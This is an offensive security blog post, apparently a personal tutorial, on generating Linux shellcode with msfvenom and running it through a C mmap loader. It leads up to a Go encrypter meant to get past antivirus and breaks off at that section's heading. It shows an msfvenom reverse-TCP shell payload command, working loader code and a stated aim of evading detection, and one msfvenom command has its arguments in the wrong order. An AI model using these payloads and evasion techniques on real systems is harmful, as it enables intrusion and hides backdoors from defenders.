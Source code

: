 ```yaml
---
layout: post
title:  "Writing a Custom Shellcoder Encrypter - First Post by Zero++;" 
---
```


In this blogpost we will write an custom Shellcode Cryptor in go. 

## But what exactly is Shellcode?
Shellcode is a combination of binary instruction that will be executed on cpu.
Shellcode can be used for everything, to spawn a reverse shell, to execute a program, to obtain a file descriptor or whatever.
We 1337-heckers use Shellcode because its independent, minimalistic, easy to hide and obfuscate and also perfect to inject into processes.
Shellcode can be written by Hand which is very difficult and not recommended by me, i would recommend to extract Shellcode from Assembly or any compiled programs.  

## Requirements to follow this Blog
This tutorial is for Linux but the Shellcode encoding works same on any Operating System, only the process of execution is different.
In this tutorial we will use Metasploit's msfvenom to generate the Shellcode, C and mmap (a Linux systemcall) to make the Shellcode executable.
Shellcode itself is not Executable, data has to be in a specific file format like ELF (used by Unix and Linux for binaries, shared libraries etc.) or the more famous one PE (Portable Executable the file format used by windows for .exe and .dll files) to be executable. Thats why we will use C to make our Shellcode executable inside our program. I highly recommend to use gcc (the gnu compiler collection) or clang to compile your C Code. The go toolchain is also required.


## Generating our first Shellcode  
In this blogpost we will use ```/tmp/blog/``` as workspace.
We will generate Unencrypted Shellcode in C format (later we will use the raw format).
The Shellcode we will generate with msfvenom will execute the "ls" program.
The -b option is for avoiding bytes, in Shellcoding on **x86** we always have to avoid 
NULL-BYTES because it will make our Shellcode stop working (i will not go into depth here).
With specifying ``` -f c ``` we use the C format, it will output a C-bytearray which is just a normal array and can easily just get copied and pasted.  

```bash
# create and navigate to workspace 
$ sudo su
$ mkdir /tmp/blog
$ cd /tmp/blog
# generate and show Shellcode 
$ msfvenom -p linux/x86/exec CMD="ls" -f -b "\x00" c -o raw.txt 
$ cat raw.txt

```
# Executing the Shellcode in C
Now copy the output of ```cat raw.txt``` into the C code down below here and replace your output with the "bytes" array", the has to be renamed to "bytes".
After its done it should look like this.

```c
#include <stdio.h>    /* standard input/output */
#include <string.h>   /* used for memcpy */
#include <sys/mman.h> /* header for mmap syscall and flags */

unsigned char bytes[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73"
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00"
"\x00\x6c\x73\x00\x57\x53\x89\xe1\xcd\x80";

int main() {
	/* allocate a memory map */
	void* region = mmap(NULL, 

			sizeof(bytes),
			PROT_WRITE | PROT_EXEC,
			MAP_ANONYMOUS | MAP_PRIVATE,
			-1,
			0);
	/* check for error */
	if(region == MAP_FAILED) {
		perror("mmap");
		return 1;
	}
	
	/* copy shellcode into allocated memory page*/
	memcpy(region, bytes, sizeof(bytes));
	
	/* debug message */
	printf("executing %d bytes shellcode using mmap system call\n", sizeof(bytes));

	/* executing the shellcode via function pointer */
	((int(*)())region)();
	
	/* deallocate the memory */
	munmap(region, sizeof(bytes));
	return 0;
}
```

## Notes and Compiling the Program
This blog is not a C course you already should be familiar with the C language.
I will compile the program with the following command 
```gcc -m32 file.c -o runme && ./runme```
The -m32 option stands basically for 32 bit make sure you have gcc-multilib installed to be able to use the 32-bit headers. After Compiling and 
executing the program we should get following output:
```bash
executing 39 bytes shellcode using mmap system call
file.c	raw.txt  runme
```
as we see the c code and the Shellcode execute "ls", thats why it listed the files down below there.

## Generating Reverse-Shell-Shellcode with msfvenom
Now we will generate Shellcode which will spawn a Reverse-Shell.
To run the Shellcode you have todo the same as before, just copy the output, paste, rename the array, compile and run.
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=8089 -b "\x00" -f c -o raw.txt 
```
For some reason msfvenom used shikata_ga_nai, but i didnt specify to use it which was really suprising for me. If we now upload the backdoor to VirusTotal it will be detected as we see here.

![VirusTotal Screenshot](https://github.com/calloczero/calloczero.github.io/blob/main/_images/crop.png?raw=true)

# Writing an Encryptor to make an obfucate and outplaying Antivirus Software    



















